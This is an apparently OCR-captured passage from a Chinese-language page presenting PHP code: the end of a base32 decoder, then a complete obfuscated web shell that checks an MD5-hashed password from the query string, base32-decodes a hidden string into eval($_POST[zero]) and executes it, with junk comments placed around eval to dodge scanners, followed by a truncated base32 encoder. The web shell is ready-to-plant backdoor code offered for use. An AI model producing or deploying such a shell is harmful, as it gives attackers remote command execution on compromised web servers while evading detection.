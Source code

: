 ```

    for ($i = 0, $j = strlen($input); $i < $j; $i++) {
        $v <<= 5;
        if ($input[$i] >= 'a' && $input[$i] <= 'z') {
            $v += (ord($input[$i]) - 97);
        } elseif ($input[$i] >= '2' && $input[$i] <= '7') {
            $v += (24 + $input[$i]);
        } else {
            exit(1);
        }

        $vbits += 5;
        while ($vbits >= 8) {
            $vbits -= 8;
            $output .= chr($v >> $vbits);
            $v &= ((1 << $vbits) - 1);
        }
    }
    return $output;
}
```

shell 如下，直接使用 base32 处理 "eval($_POST[zero]);"

```
<?php
class ZQIH{
        public $a = null;
        public $b = null;
        public $c = null;

        function __construct(){
            if(md5($_GET["pass"])=="df24bfd1325f82ba5fd3d3be2450096e"){

        $this->a = 'mv3gc3bierpvat2tkrnxuzlsn5ossoy';



        $this->LGZOJH = @base32_decode($this->a);
        @eval/*sopupi3240-=*/("/*iSAC[FH*/".$this->LGZOJH."/*iSAC[FH*/");
        }}}
new ZQIH();

function base32_encode($input) {
    $BASE32_ALPHABET = 'abcdefghijklmnopqrstuvwxyz234567';
    $output = '';
    $v = 0;
    $vbits = 0;

    for ($i = 0, $j = strlen($input); $i < $j; $i++) {
        $v <<= 8;
        $v += ord($input[$i]);
        $vbits += 8;

        while ($vbits >= 5) {
            $vbits -= 5;
            $output .= $BASE32_ALPHABET[$v >> $vbits];
            $v &= ((1 << $vbits) - 1);
        }
    }

    if ($vbits > 0) {
        $v <<= (5 - $vbits);
        $output .= $BASE32_ALPHABET[$v];
```